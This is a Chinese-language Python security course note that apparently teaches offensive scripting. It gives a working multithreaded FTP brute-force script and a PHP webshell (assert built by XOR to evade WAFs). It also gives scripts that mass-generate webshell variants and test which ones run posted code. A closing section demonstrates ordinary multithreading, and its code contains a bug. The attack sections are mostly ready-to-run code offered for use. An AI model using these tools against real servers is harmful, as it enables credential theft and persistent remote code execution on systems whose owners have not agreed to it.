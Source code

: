 <a name="X3LCA"></a>
### 一、思维导图
![python安全.png](https://cdn.nlark.com/yuque/0/2021/png/2476579/1633073341439-e2381898-0897-4736-98d8-e5d95da16fb0.png#clientId=ubcc36c80-c110-4&from=paste&id=ua32cc1d6&originHeight=856&originWidth=1016&originalType=binary&ratio=1&size=88989&status=done&style=none&taskId=u3e648bf5-2e69-4b67-83ff-9e1ccfe60dd)<br /> #本课知识点： 协议模块使用，Request 爬虫技术，简易多线程技术，编码技术，Bypass 后门技术 #学习目的：  <br /> 掌握利用强大的模块实现各种协议连接操作(爆破或利用等)，配合 Fuzz 吊打 WAF 等  

<a name="I4zmg"></a>
### 二、演示案例

- Python 开发-简单多线程技术实现脚本
- Python 开发-利用 FTP 模块实现协议爆破脚本
- Python 开发-配合 Fuzz 实现免杀异或 Shell 脚本
<a name="npwmR"></a>
#### 2、FTP暴力破解
```python
import ftplib
import threading
import queue
import sys

#利用Python开发其他协议爆破脚本
def ftp_check():
    while not q.empty():
        dict=q.get()
        dict=dict.split('|')
        username=dict[0]
        password=dict[1]
        ftp=ftplib.FTP()
        try:
            ftp.connect('192.168.0.101',21)
            ftp.login(username,password)
            ftp.retrlines('list')
            ftp.close()
            print('success|'+username+'|'+password)
        except ftplib.all_errors:
            print('failed|'+username+'|'+password)
            ftp.close()
            pass


if __name__ == '__main__':
    print("python ftp_burte.py user.txt pass.txt 10")
    user_file=sys.argv[1]
    pass_file = sys.argv[2]
    thread_x=sys.argv[3]
    q=queue.Queue()
    for username in open(user_file):
        for password in open(pass_file):
            username = username.replace('\n', '')
            password = password.replace('\n', '')
            diclist=username+'|'+password
            q.put(diclist)
    for x in range(int(thread_x)):
        t=threading.Thread(target=ftp_check)
        t.start()
```


<a name="ax8l1"></a>
#### 3、fuzz异或脚本shell
**原理：**`<?php $a =("!"^"@").'ssert';$a($_POST[x]); ?>`这个后门代码的意义是将ASCII的字符`"!"，"@"`通过异或运算(^)得到a，组成PHP中assert函数执行代码，由于运算复杂在waf中没有实现检查功能而从绕过waf。<br />下面的代码是通过python自动化生成异或运算，生成大量的后门文件。
```
for i in range(1, 127):
    for ii in range(1, 127):
        payload = "'" + chr(i) + "'" + '^' + "'" + chr(ii) + "'"
        code = "<?php $a=(" + payload + ").'ssert';$a($_POST[x]);?>"
        filename = str(i) + 'xd' + str(ii) + '.php'
        with open('D:/phpstudy/PHPTutorial/WWW/x/' + filename, 'a') as f:
            f.write(code)
            print('Fuzz->' + filename + '文件写入成功')
            f.close()
```
![image.png](https://cdn.nlark.com/yuque/0/2021/png/2476579/1633074185022-08ea3b9a-e75c-417c-a0b9-a6d71ac07583.png#clientId=ubcc36c80-c110-4&from=paste&id=u45856334&originHeight=628&originWidth=1015&originalType=binary&ratio=1&size=78328&status=done&style=none&taskId=ue09b0d64-5bbd-4d87-9a3b-77e160eca1a)<br />访问地址`[http://127.0.0.1/x/33xd64.php](http://127.0.0.1/x/33xd64.php)`发送post数据`phpinfo();`<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/2476579/1633074455461-346d1f79-42b5-415c-a537-c93147978153.png#clientId=ubcc36c80-c110-4&from=paste&height=381&id=uf0945cb7&originHeight=761&originWidth=1914&originalType=binary&ratio=1&size=121481&status=done&style=none&taskId=uc1050bb9-13c4-4904-a020-a0c08bbe98e&width=957)<br />**用代码实验批量验证可以正常请求的后门文件**
```
import requests
import time
for i in range(1, 127):
    for ii in range(1, 127):
        payload = "'" + chr(i) + "'" + '^' + "'" + chr(ii) + "'"
        code = "<?php $a=(" + payload + ").'ssert';$a($_POST[x]);?>"
        filename = str(i) + 'xd' + str(ii) + '.php'
        url = 'http://127.0.0.1/x/' + filename
        datas = {
            'x': 'phpinfo();'
        }
        result = requests.post(url, data=datas).content.decode('utf-8')
        if 'Windows' in result:
            print('check->' + filename + '->ok')
        else:
            print('check->' + filename + '->no')
        time.sleep(1)


```
![image.png](https://cdn.nlark.com/yuque/0/2021/png/2476579/1633075461794-4c7a4495-7089-4a7f-9786-5a0ba2607960.png#clientId=ubcc36c80-c110-4&from=paste&height=92&id=u989aa7d3&originHeight=183&originWidth=1060&originalType=binary&ratio=1&size=21462&status=done&style=none&taskId=uaf6130be-1f7e-4e74-bb88-79e2c4948ee&width=530)<br />**引入多线程**
```python
import requests
import time
import threading, queue


def string():
    while not q.empty():
        filename = q.get()
        url = 'http://127.0.0.1/x/' + filename
        datas = {
            'x': 'phpinfo();'
        }
        result = requests.post(url, data=datas).content.decode('utf-8')
        if 'DESKTOP-1O25JJN' in result:
            print('check->' + filename + '->ok')
        else:
            # print('check->'+filename+'->no')
            pass
        time.sleep(1)


def shell_test_check():
    url = 'http://127.0.0.1/x/33xd64.php'
    datas = {
        'x': 'phpinfo();'
    }
    result = requests.post(url, data=datas).content.decode('utf-8')
    print(result)
    if 'XIAODI-PC' in result:
        print('ok')


if __name__ == '__main__':
    q = queue.Queue()
    for i in range(33, 127):
        for ii in range(33, 127):
            payload = "'" + chr(i) + "'" + '^' + "'" + chr(ii) + "'"
            code = "<?php $a=(" + payload + ").'ssert';$a($_POST[x]);?>"
            filename = str(i) + 'xd' + str(ii) + '.php'
            q.put(filename)
            with open('D:/phpstudy/PHPTutorial/WWW/x/' + filename, 'a') as f:
                f.write(code)
                f.close()
                print('Fuzz文件生成成功')
    for x in range(20):
        t = threading.Thread(target=string)
        t.start()

```
当然这个代码是可以继续优化的比如将访问成功的后门单独保存,当然这个代码还可以升级例如将`assert`函数换为`$e $t` ，另外还可以替换assert函数换为`exec`等PHP中可以调用的系统函数。
<a name="bIRS3"></a>
### 三、补充多线程知识
![image.png](https://cdn.nlark.com/yuque/0/2021/png/2476579/1633077844209-2d24672e-5d6e-45bf-86cf-593a9d6d93fb.png#clientId=u7b7aa894-0ec1-4&from=paste&height=362&id=u73393e19&originHeight=723&originWidth=1340&originalType=binary&ratio=1&size=216256&status=done&style=none&taskId=u63b4b765-b662-48c6-bae2-23a68d20670&width=670)
```python
import requests
urls = [f"https://www.cnblogs.com/#p{page}"
        for page in range(51)
        ]

def craw(url):
    r = requests.get(url)
    print(url,len(r.text))

craw(urls[0])
```
```python
import threading
import time
import blog_spider

def single_thread():
    print("single_thread begin")
    for url in blog_spider.urls:
        blog_spider.craw(url)
    print("single_thread end")


def multi_thread():
    print("multi_thread begin")
    threads = []
    for url in blog_spider.urls:
        threads.append(
            threading.Thread(target=blog_spider.craw,args=(url,))
        )
    for thread in threads:
        thread.start()

    for thread in threads():
        thread.join()

    print("muliti_thread end")

if __name__ == '__main__':
    start = time.time()
    single_thread()
    end = time.time()
    print("single thread cost:", end - start, "seconds")

    start = time.time()
    multi_thread()
    end = time.time()
    print("multi_thread cost:", end - start,  "seconds")
```
